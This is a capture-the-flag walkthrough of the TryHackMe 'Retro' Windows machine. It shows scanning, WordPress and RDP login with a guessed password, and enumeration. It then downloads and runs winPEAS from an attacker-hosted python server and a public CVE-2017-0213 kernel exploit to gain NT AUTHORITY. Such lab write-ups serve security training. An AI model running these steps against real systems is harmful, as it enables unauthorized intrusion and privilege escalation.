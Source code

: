 # Retro - THM
###  Difficulty level: Hard
------------------------------------------------------

Let's start with nmap scan:

```bash
nmap -sV -sC -Pn 10.10.254.2 -oN nmap_scan	
```
Results:
```bash
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2023-04-02T09:49:52
|_Not valid after:  2023-10-02T09:49:52
|_ssl-date: 2023-04-03T09:53:51+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2023-04-03T09:53:47+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
From this scan I can cocnlude this machine running on a Windows OS,
Also, ports 80 (http) and 3389 (rdp) are open, I'll start investigate the web page.

There is nothing on the first page:

![image](https://user-images.githubusercontent.com/114166939/229806780-8a9ddf5e-fe89-4eb4-863e-d5840f5420a0.png)


I'll try to find hidden directories on this web with gobuster:
```bash
gobuster dir -u http://10.10.254.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt > dirs
```

Results:
```
/retro
```
First thing to see, this site built with WordPress, it can be noticed with wappalyzer extension.

![image](https://user-images.githubusercontent.com/114166939/229808095-c74ae384-0c2c-43d5-baa5-8b59b6492935.png)

Also, I'll run another brute-force directory to see if there are another hidden directories under the "/retro" directory:
```bash
gobuster dir -u http://10.10.254.2/retro/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt > RetroDirs
```

Results:
```
/wp-includes
/wp-admin	
/wp-content
```
Also, after some crawling on the "/retro" directory, I found a comment at "http://10.10.254.2/retro/index.php/2019/12/09/ready-player-one/":

![image](https://user-images.githubusercontent.com/114166939/229811797-f0870872-40aa-4ff0-a587-e733349a2634.png)

Probably the word "parzival" means something.

Because this is a WordPress web, I can tell there is a wp-login directory here,
It's on the "http://10.10.254.2/retro/wp-login.php".

As a username I'll use "wade", the user who wrote the comment, and as a password I'll use "parzival".

Success login!

![image](https://user-images.githubusercontent.com/114166939/229812841-a178a7ae-d8fc-4fd3-b5d4-fdc33fa01a2c.png)

I'll guess this credentials will work with the RDP service too because of it's name - "RetroWeb".

I'm going to use "remmina" service to connect:

![image](https://user-images.githubusercontent.com/114166939/229813708-4c98ac5d-b856-4f54-8c11-7ba124d2c775.png)

Connected!

On the desktop there is a file called "user.txt", It can be easily opened and I have the first flag!

![image](https://user-images.githubusercontent.com/114166939/229814249-5c437137-4cdf-4056-8aa6-8e5321dc3743.png)

Next, I'll open a cmd for gathering more information about this machine:
```cmd
systeminfo
```
Results:

![image](https://user-images.githubusercontent.com/114166939/229815473-c090618e-7110-4040-b16a-26dd2166361f.png)

This is x64 processor architecture, windows servers 2016, standalone computer.

```cmd
net users && net localgroup
```

![image](https://user-images.githubusercontent.com/114166939/229816484-d7fcea0c-7de4-4a59-8b80-600fc8559e53.png)

```cmd
net localgroup Administrators
```

![image](https://user-images.githubusercontent.com/114166939/229817126-ffcf7ce4-1ce4-4685-a2c3-e53344edbea4.png)

Wade is a weak user I'll try privilege escalation.

For that I'll need winPEASx64.exe from "https://github.com/carlospolop/PEASS-ng/releases/tag/20230402".

Next, I'll run a python3 server to download it on the victim machine:
```python3
python3 -m http.server
```

I'll open "Google chrome" and run "http://10.14.50.11:8000/winPEASx64.exe", download the file
and run it.

One of the many vulnerabilities it found is "CVE-2017-0213"!

This CVE exploit the kernel and grant NT-AUTHORITY permissions.

I found a github page with this exploit "https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213",
Download to my machine the "CVE-2017-0213_x64.zip", unzip it, and now I'll upload it to the victim machine as I did before, with python3 server.

I'll run the file from the cmd:
```cmd
CVE-2017-0213_x64.exe
```

![image](https://user-images.githubusercontent.com/114166939/229829593-df5bbce4-09b4-40c5-bec5-a7e50282217b.png)


Got NT-AUTHORITY user!

Now all left to do is to open the Administrator directory and print the "root.txt" flag!

```cmd
type C:\Users\Administrator\Desktop\root.txt.txt
```

![image](https://user-images.githubusercontent.com/114166939/229826500-f97a8b4f-e697-44d8-b1da-ba574e0b50e8.png)


